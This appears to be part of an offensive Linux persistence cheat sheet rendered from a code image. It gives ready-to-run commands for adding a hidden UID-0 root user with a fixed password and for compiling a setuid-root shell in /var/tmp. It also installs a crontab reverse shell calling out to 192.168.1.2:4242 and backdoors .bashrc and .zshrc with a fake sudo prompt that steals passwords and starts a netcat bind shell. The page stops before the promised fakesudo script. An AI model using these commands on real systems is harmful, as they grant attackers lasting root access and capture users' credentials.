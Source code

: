 ## Add a root user

```powershell
sudo useradd -ou 0 -g 0 john
sudo passwd john
echo "linuxpassword" | passwd --stdin john
```

## Suid Binary

```powershell
TMPDIR2="/var/tmp"
echo 'int main(void){setresuid(0, 0, 0);system("/bin/sh");}' > $TMPDIR2/croissant.c
gcc $TMPDIR2/croissant.c -o $TMPDIR2/croissant 2>/dev/null
rm $TMPDIR2/croissant.c
chown root:root $TMPDIR2/croissant
chmod 4777 $TMPDIR2/croissant
```

## Crontab - Reverse shell

```bash
(crontab -l ; echo "@reboot sleep 200 && ncat 192.168.1.2 4242 -e /bin/bash")|crontab 2> /dev/null
```

## Backdooring a user's bash_rc 

(FR/EN Version)

```bash
TMPNAME2=".systemd-private-b21245afee3b3274d4b2e2-systemd-timesyncd.service-IgCBE0"
cat << EOF > /tmp/$TMPNAME2
  alias sudo='locale=$(locale | grep LANG | cut -d= -f2 | cut -d_ -f1);if [ \$locale  = "en" ]; then echo -n "[sudo] password for \$USER: ";fi;if [ \$locale  = "fr" ]; then echo -n "[sudo] Mot de passe de \$USER: ";fi;read -s pwd;echo; unalias sudo; echo "\$pwd" | /usr/bin/sudo -S nohup nc -lvp 1234 -e /bin/bash > /dev/null && /usr/bin/sudo -S '
EOF
if [ -f ~/.bashrc ]; then
    cat /tmp/$TMPNAME2 >> ~/.bashrc
fi
if [ -f ~/.zshrc ]; then
    cat /tmp/$TMPNAME2 >> ~/.zshrc
fi
rm /tmp/$TMPNAME2
```

or add the following line inside its .bashrc file.

```powershell
$ chmod u+x ~/.hidden/fakesudo
$ echo "alias sudo=~/.hidden/fakesudo" >> ~/.bashrc
```

and create the `fakesudo` script.

